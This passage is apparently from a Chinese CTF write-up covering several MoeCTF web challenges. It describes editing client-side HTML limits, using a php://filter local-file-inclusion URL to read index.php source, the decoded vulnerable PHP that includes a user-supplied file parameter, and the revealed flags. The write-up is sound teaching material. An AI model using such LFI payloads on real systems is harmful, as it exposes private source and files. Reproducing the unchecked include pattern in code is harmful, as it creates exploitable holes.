不过后来用脚本的办法, 拓展性高一点:

```python
import requests
datas = {'a'}
r = requests.post("http://39.108.11.206:10001/", data=datas)
print(r.text)
print(r.status_code)
```

### Introducing Web

打开网页, 然后按F12, 然后..就没有然后了..

### Easy Limitation

打开网页, 保存到本地, 打开HTML, 把下面这句:

```html
<input class="form-control" type="text" name="key" maxlength="14" placeholder="只需要输入msc_1s_Gre@t即可获取flag">
```

里的`maxlength`改成15或者更大的数, 然后本地浏览器打开改好的html, 输入, 提交, 拿到`flag`.

### Procotol

从php的官方文档里读了好久...然后拼出来这么一句:

```text
http://39.108.11.206:10003/?file=php://filter/read=convert.base64-encode/resource=./index.php
```

浏览器打开后能看到一串`base64`串, 复制下来解码:

```HTML
<?php
error_reporting(0);
echo '<p>the flag was put in the index.php, can you get it?</p>';


$file=$_GET['file'];
include($file);
//moectf{YoU_g0t_f1@g}
?>
```

然后就拿到`flag`了...

说来这种把源码换成`base64`再输出防止被执行的方法真骚啊..

### Restrictions

搜索引擎会读取站点下的`robots.txt`来判断爬取哪些页面. 然后我们打开`https://moectf.cn/robots.txt`, 发现提示有什么脚本被执行了删掉了`flag`...

打开设置禁用JS脚本, 刷新网页, F12, 在源代码里看见`flag`...

### 是时候展示十八年单身的手速了
